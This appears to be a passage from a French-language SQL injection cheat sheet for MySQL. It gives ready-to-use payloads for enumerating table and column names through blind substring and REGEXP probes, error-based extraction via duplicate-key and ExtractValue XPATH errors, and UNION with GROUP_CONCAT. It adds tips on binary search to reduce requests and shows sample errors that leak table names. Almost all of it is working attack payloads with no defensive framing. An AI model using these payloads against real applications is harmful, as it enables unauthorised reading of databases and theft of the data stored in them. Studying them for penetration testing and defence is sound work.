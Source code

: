 #### En mode aveugle « Blind »

AND SELECT SUBSTR(table_name,1,1) FROM information_schema.tables > 'A';

AND 1=(SELECT 1 FROM information_schema.tables WHERE TABLE_SCHEMA="myDB" AND table_name REGEXP '^[a-z]' LIMIT 0,1)

**Remarques :**

- Appliquer un algorithme dichotomique sur la première requête pour optimiser le temps de recherche et le trafic réseau (O(log n)).
- Privilégier la seconde pour réduire encore le nombre de requête.

#### Via les erreurs

AND(SELECT 1 FROM(SELECT COUNT(*),CONCAT((SELECT(SELECT(SELECT DISTINCT CONCAT(0x7e,0x27,CAST(table_name as char),0x27,0x7e) FROM information_schema.tables WHERE table_schema='[DB_NAME]' LIMIT N,1)) FROM information_schema.tables LIMIT 0,1),FLOOR(rand(0)*2))x FROM information_schema.tables GROUP BY x)a)

**Remarques :**

- Indiquer le nom de la base de données dont les noms des tables sont à extraire.
- Faire évoluer la valeur de N de 0 à X pour récupérer le nom de chaque table dans les erreurs.

**Résultats :**
**
> #1062 – Duplicate entry ‘~’myTable’~1’ for key ‘group_key’
**

AND ExtractValue(1, CONCAT(0x5c, (SELECT table_name FROM information_schema.tables LIMIT N,1)));-- Available in 5.1.5

**Résultats :**
**
> #1105 – XPATH syntax error: ‘\myTable’
**
**Remarques :**

- Cette seconde méthode, présente depuis MySQL 5.1.5, ne nécessite pas de nom de base.
- Faire évoluer la valeur de N de 0 à X pour récupérer le nom de chaque table dans les erreurs.

### Récupérer le nom des colonnes

#### Via « Union »

UNION SELECT GROUP_CONCAT(column_name) FROM information_schema.columns WHERE table_name = 'tablename'

#### En mode aveugle « Blind »

AND SELECT SUBSTR(column_name,1,1) FROM information_schema.columns > 'A'
**Remarques :**

- Appliquer un algorithme dichotomique pour optimiser les requêtes, le temps de recherche et le trafic réseau (O(log n)).
